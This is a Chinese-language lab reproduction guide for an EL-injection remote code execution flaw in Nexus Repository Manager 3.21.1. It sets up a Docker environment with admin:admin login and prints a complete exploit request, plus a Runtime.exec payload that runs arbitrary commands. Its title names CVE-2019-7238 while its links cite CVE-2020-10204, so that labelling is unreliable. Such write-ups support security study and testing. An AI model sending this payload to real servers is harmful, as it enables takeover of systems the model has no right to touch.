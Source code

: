 # Nexus Repository Manager 3 远程命令执行漏洞（CVE-2019-7238）

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞，这个漏洞是CVE-2018-16621的绕过。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044356194-CVE-2020-10204-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10204/README.md
- https://github.com/jas502n/CVE-2020-10199

## 漏洞环境

执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要访问更新角色或创建角色接口，所以我们需要使用账号密码`admin:admin`登录后台。

## 漏洞复现

登录后台后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/extdirect HTTP/1.1
Host: 192.168.1.3:8081
Content-Length: 223
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.34435456726224034
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.3:8081
Referer: http://192.168.1.3:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.34435456726224034; NXSESSIONID=cedf848f-d881-4b58-ac24-9e9c3ece40bc
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["nxadmin$\\B{233*233}"]}],"type":"rpc","tid":11}
```

![](1.png)

参考<https://github.com/jas502n/CVE-2020-10199>，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}`即可成功执行任意命令：

![](2.png)